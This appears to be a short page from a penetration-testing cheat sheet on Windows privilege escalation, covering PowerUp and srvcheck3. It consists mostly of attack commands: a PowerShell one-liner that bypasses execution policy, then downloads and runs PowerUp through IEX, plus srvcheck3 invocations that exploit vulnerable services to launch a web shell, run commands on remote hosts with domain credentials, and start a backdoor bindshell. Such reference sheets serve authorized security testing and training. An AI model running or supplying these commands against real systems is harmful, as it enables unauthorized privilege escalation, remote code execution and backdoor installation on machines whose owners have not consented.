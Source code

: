 

## PowerUp

Cheat sheet:  [https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf) 

**Download and run:**

`powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks` 

For all checks: 

`PS C:\Users\mssql-svc\appdata\local\temp> Invoke-AllChecks` 

## srvcheck3

Privilege escalation for Windows XP SP2 and before 

This can exploit vulnerable services. http://seclists.org/fulldisclosure/2006/Feb/231 

**Example**:  

`srvcheck3.exe -m upnphost -H 127.0.0.1 -c "cmd.exe /c c:\Inetpub\wwwroot\shell.exe"` 

View menu: 

`D:\Programación\srvcheck2>srvcheck`3`.exe -?` 

examples:

`Srvcheck3.exe -l` \(list local vulnerabilities\) 

`Srvcheck3.exe -l -H 192.168.1.1-192.168.1.255 -u domainuser -p domainpass` 

`Srvcheck3.exe -l -f hosts.txt -u DOMAINuser -p password` \(list remote vulnerabilities\)

`Srvcheck3.exe -m service -H host -c "cmd.exe /c md c:\PWNED"` 

`Srvcheck3.exe -m vulnservice -H 192.168.1.200 -u domainuser -p domainpass -r 192.168.1.1 21 backdoor.exe` \(exe cutes backdoor.exe bindshell\)



